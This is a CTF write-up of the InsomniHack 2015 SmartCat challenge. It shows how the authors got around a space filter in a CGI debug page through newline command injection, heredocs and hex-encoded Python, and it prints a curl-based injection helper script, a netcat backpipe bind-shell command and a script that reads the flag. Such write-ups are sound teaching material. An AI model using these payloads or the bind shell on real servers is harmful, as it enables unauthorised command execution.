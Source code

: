 __InsomniHack CTF :: SmartCat1__
================


_Caleb Stewart_ | _Wednesday, December 30th, 2015_ 


> Almost there, but now you should be able to do better than a cat (sorry about the pun)
> I'm sure you can leverage the previous bug to get a shell
> Go on that [`debug interface`][smartcat] again and read the flag in /home/smartcat/


----------

![Smart Cat](../canihaz.jpg)

When we left off, we had very basic access to the server system. The problem with this piece was that we now need to pass parameters to commands on the server. We need to tell find where to search or at the very least change directories. Our initial idea was to write scripts with encoded characters to the temp directory, use python to decode the characters then execute those scripts. This is a very round about way to execute commands but it would be predictable. The only problem? We were unable to write to files on the disk. We wanted to use echo then redirect to a file, but we could pass parameters to echo due to our space restriction. Fast forward through an hour of failed attempts, we remembered the useful bash syntax off passing strings to standard input without echo:

``` bash
$ cat <<< "This goes to standard input"
```

Sadly, we only recieved a "failed to run command error," but this sparked another idea. We remembered bashes other syntax for standard input called [`Here Documents`][heredoc]. With heredocs, we are able to pass strings into other programs without spaces. Now, all we needed to do is craft a useful program without spaces, squigly braces, or parenthesis. This is much harder than it sounds. First, bash scripts require spaces. Next, python, php, perl and pretty much any other scripting language requires either spaces or parenthesis to delimit parameters to functions. We did realize that, in python, you could call print without a space or a parenthesis (I still don't understand why this syntax works). 

``` python
print'string to print'
```

This was great. We could now get a script running and write to the file system! We began implementing our idea from above. We first used pythong to take a script in plan text and convert it to a hex escaped string. It was a little excessive to escape every character, but it was quick and it worked:

``` python
script = 'find /home/smartcat'
print "".join('\\x' + c.encode('hex') for c in script)
```

This would give beautifully unreadable hex string. Next, we take this and wrap it in the little spaceless print command we used before, a heredoc, redirection to a temporary file, and a voila! We have a bash script in /tmp!

```
%0Apython<<EOF>/tmp/showmehome%0Aprint'\x6c\x73\x20\x2f\x68\x6f\x6d\x65\x2f\x73\x6d\x61\x72\x74\x63\x61\x74'%0AEOF
```

We had issues with filenames that had periods for some reason so we just avoided all extensions. Once we had the bash script, we could execute it the same way we executed python.

```
%0Abash</tmp/showmehome
```

This showed us what was in the home directory. Sadly, it wasn't as simply as last time...

```
flag2
readflag
```

We recieved errors when `cat`'ing flag2, and when attempting to run `readflag`. At this point, we whipped up a quick script to ease process of executing commands.

``` bash
#!/usr/bin/env bash

hexcommand=`python -c "print \"\".join(r'\\x'+char.encode('hex') for char in '$@')"`
python_script="print'$hexcommand'"
script_name="/tmp/25414552"
html_name=$RANDOM

curl --data "dest=%0Apython<<EOF>$script_name%0A$python_script%0AEOF" http://smartcat.insomnihack.ch/cgi-bin/index.cgi > /dev/null 2>&1
curl --data "dest=%0Abash<$script_name" http://smartcat.insomnihack.ch/cgi-bin/index.cgi > $html_name 2>/dev/null
xmllint --xpath "/html/body/pre" $html_name | sed "s/<pre>//g" | sed "s|</pre>||g"
rm $html_name
```

This is a really basic command which allows quick testing of commands and filesystem inspection. It also strips the HTML out of the response so it's nicer to work with. This script has some quirks here and there, but allowed us to see the permissions on the files. As we suspected, `flag2` was only readable by root, and its group (smartcat). The readflag executable was setgid for and owned by root:smartcat. Therefore, if we called readflag we should be able to see the contents of flag2.

We tried running readflag again with a bang (!) before it, in order to tell bash to ignore the result of the program. With that, we were able to see the output. This showed us a little message from the smartcat2 creators:

```
Almost there... just trying to make sure you can execute arbitrary commands....
Write 'Give me a...' on my stdin, wait 2 seconds, and then write '... flag!'.
Do not include the quotes. Each part is a different line.
```

We decided to attempt to get a real shell to aid in completing this challenge. We setup a netcat listener with a backpipe like so:

```
mknod /tmp/backpipe p;
bash 0</tmp/backpipe | nc -l 64512 1>/tmp/backpipe
```

For some reason, we could never connect. There may have been a firewall preventing our access, or our personal ISP was blocking our connection. Truly, we'll never know (quote, John Hammond). In the end, we took a step backwords, and crafted the following python script to call readflag for us.

``` python
#!/usr/bin/env python
​
import time, sys, subprocess
​
p = subprocess.Popen(('/home/smartcat/readflag', '/home/smartcat/flag2'), stdin=subprocess.PIPE, stdout=subprocess.PIPE)
​
p.stdin.write('Give me a...')
​
time.sleep(2)
​
p.stdin.write('... flag!')
​
p.wait()
​
print p.stdout.read()
```

We encoded it into hex, wrote it to /tmp/win, and finally executed it. It was able to run and give us the flag! The flag is not shown here, because the server was brought down after the competition due to excessive file creation and DOSing...

[smartcat]: http://smartcat.insomnihack.ch/cgi-bin/index.cgi
[heredoc]: https://en.wikipedia.org/wiki/Here_document